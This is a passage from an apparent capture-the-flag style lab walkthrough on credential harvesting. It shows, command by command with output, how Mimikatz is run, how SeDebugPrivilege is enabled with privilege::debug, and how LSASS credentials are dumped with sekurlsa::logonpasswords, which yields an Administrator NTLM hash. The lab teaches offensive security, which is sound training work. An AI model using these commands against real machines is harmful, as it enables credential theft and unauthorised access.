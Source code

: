 - **Runing mimikatz With Admin Privielges**

```markup
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Jul 10 2019 23:09:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # 
        
```

Before dumping the memory for cashed credentials and hashes, we need to enable the SeDebugPrivilege and check the current permissions for memory access. It can be done by executing `privilege::debug` command as follows,

- **Checking the Current Permission to Access Memory** 

```markup
mimikatz # privilege::debug
Privilege '20' OK
        
```

Once the privileges are given, we can access the memory to dump all cached passwords and hashes from the `lsass.exe` process using `sekurlsa::logonpasswords`. If we try this on the provided VM, it will not work until we fix it in the next section.

- **Dumping the Stored Clear-text Passwords**

```markup
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515377 (00000000:0007dd31)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 6/3/2022 8:30:44 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : 64a137cb8178b7700e6cffa387f4240043192e72
         * DPAPI    : bc355c6ce366fdd4fd91b54260f9cf70
...
        
```

Mimikatz lists a lot of information about accounts and machines. If  we check closely in the Primary section for Administrator users, we can  see that we have an NTLM hash. 
